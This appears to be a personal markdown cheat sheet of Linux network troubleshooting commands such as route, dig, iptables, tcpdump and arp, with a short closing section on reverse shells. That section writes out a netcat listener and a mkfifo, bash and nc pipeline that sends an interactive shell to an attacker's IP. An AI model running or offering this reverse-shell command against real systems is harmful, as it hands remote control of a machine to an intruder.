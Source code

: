 ## Utilities commands for troubleshooting a network

ping <server>

route -n
  show default gateway and other routes without resolving the DNS

route
  show default gateway and other routes trying to resolve the DNS

ifconfig
  information about the network adapters

dig
  same as nslookup but it shows in a format that is much easier to parse when working with scripts

dig <server> MX
  show MX records. Used to direct e-mail messages for the right destination.

iptables -L
  show all the rules current configured

iptables -A INPUT -p tcp --dport 21 -j DROP
  appends a firewall rule for incoming tcp connections on port 21 (ftp) to be dropped

iptables -L INPUT --line-numbers
  show all INPUT rules current configured and display it line number.

iptables -D INPUT 1
  deletes INPUT rule with line number 1.

iptablas -D INPUT -p tcp --dport 21 -j DROP
  same as above but delete the rule by the rule it self.

tcpdump -i <interface> -n
  show all the traffic coming in and out the interface. Option -n don't do the reverse dns lookup.

sudo dhclient
  obtains an ip from the dhcp server

sudo dhclient -r
  release the ip address

arp
  shows routing table (layer 2 mac address  <->  layer 3 ipv4 address)
  useful flags: -a (shows dns vs mac) -n (shows ip vs mac)

ip -6 neighbor|neigh show
  shows routing table (layer 2 mac addres <-> layer 3 ipv6 address)
  man page: man ip-neighbor


### Reverse shell

nc -lnvp <port_number> 
  attacker will listen for connections on port number

mkfifo /tmp/<file_to_be_used_as_pipe>
  creates a file that will be used as a pipe/socket for enabling the attacked system to offer a shell

cat /tmp/<file_created_above> | /bin/bash -i 2>&1 | nc <attacker-ip> <port-number> > /tmp/<file-created-above>
  connects to the attacker machine and offers a shell for the attacker to control the attacked machine



